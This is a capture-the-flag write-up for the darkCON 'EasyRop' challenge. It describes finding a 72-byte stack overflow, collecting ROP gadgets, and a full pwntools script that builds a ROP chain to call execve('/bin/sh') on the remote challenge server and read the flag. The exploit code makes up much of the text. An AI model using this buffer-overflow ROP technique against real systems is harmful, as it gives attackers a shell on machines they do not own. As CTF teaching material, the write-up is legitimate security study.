 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

## Preparation
Now I thought about my objective: Getting a shell<br>
What we have to do:<br>
1.Write "/bin/sh" somewhere in memory<br>
2.make a syscall or call system with the first parameter being the location of the string, and the two next parameters being just anything <br>
<br>
The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:
<br>
\[+] Gadget found: 0x4012d3 syscall 				; making the syscall<br>
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory <br>
\[+] Gadget found: 0x40f4be pop rsi ; ret 			; controlling the rsi register<br>
\[+] Gadget found: 0x4175eb pop rax ; ret 			; controlling rax<br>
\[+] Gadget found: 0x40191a pop rdi ; ret 			; ...<br>
\[+] Gadget found: 0x40f4be pop rsi ; ret <br>
\[+] Gadget found: 0x40181f pop rdx ; ret<br>
<br>

## The Plan

pop writable location into rsi >> <br>
pop "/bin/sh" into rax >> <br>
call write gadget >> <br>
pop writable +8 into rsi >> <br>
pop (anything) into rax >> <br>
call writegadget >> <br>
pop /bin/sh location into rdi (the first syscall parameter) >> <br>
pop the junk data location into rsi and rdx (2. and 3. argument) >><br>
pop 0x3b into rax (=(dec)59; [syscall number for execve](https://filippo.io/linux-syscall-table/) >> <br>
make syscall >> <br>
Enjoy our flag!<br>

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:<br>
![terminal output](./terminal_exploit_execution.png)<br>
<br>
Well done! <br>
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
